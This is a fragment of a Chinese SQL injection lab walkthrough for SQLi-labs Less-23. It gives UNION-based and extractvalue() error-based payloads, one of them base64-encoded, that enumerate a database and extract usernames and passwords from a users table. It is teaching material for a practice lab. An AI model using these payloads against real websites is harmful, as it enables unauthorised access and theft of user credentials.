 编码

YWRtaW4iIGFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSwnficscGFzc3dvcmQpIGZyb20gdXNlcnMpKSkgIw==

![image-20201111114008305](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111114008305.png)



## 0X17Less-23

![image-20201111131931936](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111131931936.png)

去注释符

构造payload

爆库payload

```
?id=' union select 1,2,database() '
```

爆表payload

```
?id=' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or '1'= '
```

爆列名payload

```
?id=' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' or '1'= '
```

爆值payload

```
?id=' union select 1,group_concat(username),group_concat(password) from users where 1 or '1' = '
```

 **此处的sql语句为**

SELECT * FROM users WHERE id='-**1' union select 1,(select database()),'3**' limit 0,1

![image-20201111131840712](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111131840712.png)

Explain：此处讲解几个知识点：

1、id=-1，为什么要用-1，因为sql语句执行了两个select语句，第一个select为id的选择语句，第二个为我们构造的select语句。只有一个数据可以输出，为了让我们自己构造的数据可以正常输出，第一个select要没有结果，所以-1或者超过数据库所有数据都可以。

2、**-1' union select 1,(select database()),'3，**第一个'（单引号）闭合-1，第二个'（单引号）闭合后面的。这样将查询内容显示在username处。

3、此处可以报错注入，延时注入，可以利用or '1'='1进行闭合。http://127.0.0.1/sql/Less-23/index.php?id=-1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '1'='1

以上这条语句就是利用extractvalue()进行报错注入。
